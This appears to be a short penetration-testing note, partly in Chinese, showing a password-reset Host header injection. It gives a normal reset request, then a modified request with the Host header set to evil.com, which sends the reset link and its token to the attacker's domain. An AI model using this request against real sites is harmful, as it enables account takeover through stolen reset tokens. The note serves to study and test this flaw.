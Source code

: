 	正常请求
	Request:
	POST /password-reset?user=123 HTTP/1.1
	Host: target.com
	返回:
	https://target.com/reset-link=1g2f3guy23g
	改后
	Request:
	POST https://target.com/password-reset?user=123 HTTP/1.1
	Host: evil.com
	Link received:
	https://evil.com/reset-link=1g2f3guy23g
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/712.png)